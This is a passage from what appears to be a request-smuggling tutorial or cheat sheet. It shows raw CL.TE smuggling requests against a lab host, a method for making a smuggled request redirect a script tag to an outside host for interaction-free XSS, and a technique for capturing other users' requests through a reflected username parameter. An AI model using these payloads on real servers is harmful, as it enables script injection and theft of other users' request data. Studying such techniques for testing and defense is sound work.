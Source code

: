   
    1
    Z
    0
  
    GET /static/docs HTTP/1.1
    Host: cvefix.ir
    X: X
    ```
  - This is not an exploit, we should inject remote JavaScript by `301`
    ```bash
    host: cvefix.ir
    x-host: cvefix.ir
    ```
    
    <img src="../res/smuggling-4.png" alt="image" width="800">

  - `<script>` tag will automatically follow redirect, so we will have an XSS that doesn't need user interaction. (It's not a stored XSS)
  
#### 2. Leak the information from server, by finding reflections or any section that can save data.
  - In this example, `username` is reflected on the page.
  - We should put username at the end of parameters, then victim request, will be reflected as `username` value.
  - We should gradually increase `Content-Length: 440`, because if it is bigger than victim's request `Content-Length`, it will through error.
  ```bash
  POST / HTTP/1.1
  Host: smuggling.lab:9007
  Transfer-Encoding: chunked
  Content-Length: 162
  Connection: keep-alive

  0

  POST /login.php HTTP/1.1
  Host: smuggling.lab:9007
  Content-Type: application/x-www-form-urlencoded
  ```